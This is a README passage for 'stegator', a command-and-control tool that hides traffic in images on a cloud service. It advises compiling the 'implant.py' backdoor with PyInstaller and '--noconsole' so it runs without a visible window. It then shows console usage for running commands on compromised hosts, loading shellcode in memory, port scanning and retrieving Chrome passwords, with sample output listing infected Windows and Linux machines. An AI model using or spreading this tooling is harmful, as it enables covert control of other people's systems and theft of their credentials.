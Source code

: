 You're probably going to want to compile ```implant.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)
In order to remove the console when compiling with Pyinstaller, the flags ```--noconsole --onefile``` will help. Just saying. 

Usage
=====

In order to run the C&C:

```
$ python stegator.py
```

You'll then get into an 'interactive' shell which offers few commands that are:

```
C&C console > help


 cleanup - Clean Cloud Service images
 refresh - Refresh C&C control and ping all bots
 bots - List active bots
 commands - List executed commands
 retrieve <jobid> - Retrieve jobid command
 cmd <MAC ADDRESS> command - Execute the command on the bot
 shellcode <MAC ADDRESS> shellcode - Load and execute shellcode in memory (Windows only)
 scanner <MAC ADDRESS> <IP>:<PORT> - Port scanner example: scanner 0:0:0:0 192.168.1.1:22,80,443
 chromepasswords <MAC ADDRESS> - Retrieve Chrome Passwords from bot (Windows only)
 help - Print this usage
 exit - Exit the client


C&C console > 
```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the bots command:
```
C&C console > bots
Bot: 04:D6:27:72:A3:E9 Windows-7-6.1.7601-SP1
Bot: 68:A3:C4:F0:98:CE Linux-4.4.0-23-generic-x86_64-with-Ubuntu-16.04-xenial
Bot: 04:00:72:3F:D6:98 Linux-3.16.0-4-amd64-x86_64-with-debian-8.2
C&C console > 

```

The output is the MAC address which is used to uniquely identifies the system but also gives you OS information the implant is running on.


- Let's issue a command to an implant:
```
C&C console > cmd 04:D6:27:72:A3:E9 ipconfig
[+] Downloading image from Cloud Service...
[+] Uploaded image to Cloud Service
[+] Steganography applied, image saved
[+] Sent command ipconfig with jobid: 97ee81e0647a4f248ac47c68e8b25b88
C&C console >
```
